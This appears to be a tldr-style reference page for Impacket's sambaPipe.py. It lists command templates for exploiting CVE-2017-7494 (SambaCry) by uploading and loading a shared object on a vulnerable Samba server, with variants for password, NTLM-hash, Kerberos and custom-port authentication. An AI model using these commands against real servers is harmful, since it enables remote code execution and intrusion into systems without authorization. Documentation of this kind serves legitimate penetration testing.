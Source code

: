 ```yaml
---
title: "Samba Exploit - RCE with SambaCry | Online Free DevTools by Hexmos"
name: sambapipe.py
path: /freedevtools/tldr/common/sambapipe.py
canonical: "https://hexmos.com/freedevtools/tldr/common/sambapipe.py/"
description: "Exploit SambaCry vulnerabilities with sambaPipe.py. Achieve Remote Code Execution (RCE) on vulnerable Samba servers using shared object (SO) files. Free online tool, no registration required."
category: common
keywords:
- Samba exploit
- SambaCry exploit
- RCE exploit
- Remote Code Execution
- SMB vulnerability
- Shared object upload
- Linux exploit
- Network penetration testing
- CVE-2017-7494
- Impacket
features:
- Exploit SambaCry vulnerability for RCE
- Upload shared object files to vulnerable Samba servers
- Authenticate with NTLM hashes for exploitation
- Support Kerberos authentication for targeted exploitation
- Customize SMB connection port during exploitation
ogImage: "https://hexmos.com/freedevtools/t/tool-banners/json-utilities-banner.png"
twitterImage: "https://hexmos.com/freedevtools/t/tool-banners/json-utilities-banner.png"
---
```


# sambaPipe.py

> Exploit CVE-2017-7494 (SambaCry) to upload and load a shared object (SO) file on a vulnerable Samba server for remote code execution.
> More information: <https://github.com/fortra/impacket>.

- Upload and load a shared object file on a vulnerable Samba server:

`sambaPipe.py -so {{path/to/file.so}} {{domain}}/{{username}}:{{password}}@{{target}}`

- Authenticate using NTLM hashes instead of a password:

`sambaPipe.py -so {{path/to/file.so}} -hashes {{LM_HASH:NT_HASH}} {{domain}}/{{username}}:{{password}}@{{target}}`

- Use Kerberos authentication for the target:

`sambaPipe.py -so {{path/to/file.so}} -k -no-pass {{domain}}/{{username}}:{{password}}@{{target}}`

- Specify a domain controller IP for authentication:

`sambaPipe.py -so {{path/to/file.so}} -dc-ip {{dc_ip}} {{domain}}/{{username}}:{{password}}@{{target}}`

- Use a custom port for the SMB connection:

`sambaPipe.py -so {{path/to/file.so}} -port {{port}} {{domain}}/{{username}}:{{password}}@{{target}}`
